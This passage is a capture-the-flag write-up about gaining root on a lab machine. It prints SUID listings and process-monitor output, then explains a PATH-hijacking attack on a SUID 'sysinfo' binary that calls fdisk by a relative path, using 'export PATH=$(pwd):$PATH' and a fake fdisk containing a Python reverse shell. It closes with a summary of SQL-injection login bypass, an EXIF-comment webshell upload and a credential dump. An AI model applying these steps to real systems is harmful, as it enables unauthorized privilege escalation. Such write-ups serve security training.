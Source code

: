 After trying some things I searched for the permissions of these files:

```
131127 28K -rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount
131130 32K -rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
393232 24K -rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo
131123 44K -rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount
131231 44K -rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
131203 64K -rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
```

I searched for crons with `pspy32` and tried each one of that commands to verify what occurs, `sysinfo` threw:

```
2020/08/02 05:22:11 CMD: UID=0    PID=4647   | 
2020/08/02 05:22:59 CMD: UID=0    PID=4649   | sh -c lshw -short 
2020/08/02 05:22:59 CMD: UID=0    PID=4648   | sysinfo 
2020/08/02 05:22:59 CMD: UID=0    PID=4650   | lshw -short 
2020/08/02 05:23:00 CMD: UID=0    PID=4655   | sh -c fdisk -l 
2020/08/02 05:23:00 CMD: UID=0    PID=4656   | fdisk -l 
2020/08/02 05:23:00 CMD: UID=0    PID=4658   | cat /proc/cpuinfo 
2020/08/02 05:23:00 CMD: UID=0    PID=4657   | sh -c cat /proc/cpuinfo 
2020/08/02 05:23:00 CMD: UID=0    PID=4660   | sh -c free -h 
2020/08/02 05:23:00 CMD: UID=0    PID=4659   | sh -c free -h
```

It is executed at the same time fdisk as root.

#### Path Hijacking

> The way this works is because *sysinfo* executed *fdisk* with a relative path and not the absolute one. So we hijack the PATH to make the OS search *fdisk* in the first directory with it inside, in this case is ours. So it executes our file instead of the original one.

To exploit this what I've done was change the path adding `Theseus` directory to the first entry with: `export PATH=$(pwd):$PATH` and created a file named `fdisk`. Inside was a reverse shell in python3. 

Instantly when executed `sysinfo`, it executed my `fdisk` file and got the reverse shell as root!

## Summary

 - To get `www-data` I had to bypass a login form with sqli, then upload a modified photo (via EXIF comment) and then execute the URL to get the reverse shell.
 -  To get `Theseus` user I had to look in the webpage database and with the found credential I dumped the database, then I changed to user `Theseus` with `su`.
 -  To get `root` I had to verify SUID files, find their permissions, and what was executed when trying those files. After, Path Hijacking with a reverse shell was the way.